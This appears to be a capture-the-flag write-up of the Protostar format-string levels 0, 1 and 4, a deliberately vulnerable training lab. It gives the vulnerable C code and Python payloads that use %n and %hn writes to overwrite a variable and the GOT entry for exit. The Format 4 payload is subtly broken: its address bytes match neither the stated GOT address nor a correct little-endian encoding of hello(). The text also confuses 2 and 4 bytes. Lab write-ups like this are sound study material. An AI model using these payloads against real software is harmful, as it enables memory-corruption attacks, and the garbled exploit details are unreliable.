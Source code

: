 # Protostar Format levels

## Format 0
For this level we have to exploit the following C code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

These types of challenges require a deep understanding of printf. I recommend reading the `man printf` page, especially the format modifiers **%x, %n and adding to them, such as %100x and %4$x**

This challenge is similar to a buffer overflow attack, where we are required to override a value with a certain value. Clearly we can just enter 64 characters followed by 0xdeadbeef (split for *little endianness* ofcourse). However the challenge wants this done in less than 15 characters. 

The way we can do this is by using the format modifier `%64x`. This would adding 64 bytes of padding to our string, followed by 0xdeadbeef, this would result in 64 characters being printed. Like we need.

So let's generate our output with python
```python
print '%64x' + '\xef\xbe\xad\xde'
```

## Format 1

This challenges introduces the `%n` modifier, that allows us to write to any value in memory. Keep this idea in main, as it will allow us later to execture our own code.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Firstly we can find the address of target using *objdump*
```
objdump -t program | grep target
```
This prints the address of target in memory -> **0x08049638**. Now that we have an address to overwrite, how do we do that?

Well first we need to find what offset our input string is on the stack for printf.
This can be found by AAAA %p %p.... %p a bunch of times. I find it is the 128th item on the stack

So let's generate a script. We need to put the address on the stack so:
```attack = "\x38\x96\x04\x08```

Now we need to set the variable, we can use %n for this. But we need the 128th item on the stack so we can use the $ modifier like
```attack += "%128$n"```
This will now overwrite the variable target, with with however many characters have already been written. (4 in this case).

## Format 4

Format levels 2-3 are very similar in that they explain slowly how to change a variable, how to set it to be a specific value. This level is all about moving from data being written, to arbritary code execution

Let's take a look at the C
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

Before we start, just as before we should find the format string offset ($ modifier) so that we know we can reach our string in memory. 
To do this we will run the program with **"AAAA %p %p %p %p %p..."** until we see the hex value of AAAA (*0x41414141*) printed to the screen.

Doing this we find an offset of 4 paramaters. So **"AAAA %4$p"** prints `AAAA 0x414141`. Perfect.

Now, we know from earlier if we replace the p with an n in the above statement, it will write the amount of characters printed so far to the address "AAAA".
Our first step is to find an address to write to. This is where the Global Offset Table, and Dynamically Linked Libraries knowledge comes in handy.

http://grantcurell.com/2015/09/21/what-is-the-symbol-table-and-what-is-the-global-offset-table/ Is a really good link to understand how the GOT and PLT work.

Now that we understand what the GOT address is, we can notice that the program uses ```exit()``` to quit the program. Exit is a dynamically linked function. **So...** if we can overwrite the GOT address for exit, to instead point to our own function, then we could possibly have remote code execution.

Let's pop open gdb/objdump and find some addresses.

Using gdb to print the Global offset Table (x/64i exit). We can find the address of exit
**exit** = *0x08049724*

Similarly we can find the address of *hello* which is *0x080484b4*

We can confirm that this is the correct address of exit by using our earlier string **"AAAA %4$p"**, replacing AAAA with the address, and $p with $n.
Hopefully the program will crash instead of exiting..

```python
print '\xb4\x84\x40\x80' + ' %4$n'
```
This should hopefully overwrite the GOT entry with `5`, and then crash the program.
Running in GDB shows the following result:
`Segmentation fault: 0x00000005 in ?? ()`
Success!!!

Now from observation we can see that our address, and the GOT address are very similar, in fact only the last 4 bytes are different.

So let's start writing up our exploit. We can begin with the address, and then a padding of 0x84b4 and then our %4$hn, hn means only write half the word or 2 bytes of data. This saves us from having to overwrite the entire number, which would require 0x080484b4 characters, or.. 67404980 characters..

```python
attack = "\xb4\x84\x40\x80" #address of GOT
attack += "%" + str(0x84b4) + "x" #%x buffer to set how many characters to print
attack += "%4$hn" #Write how many characters have been printed so far, into the second half of the address
print attack
```

Win!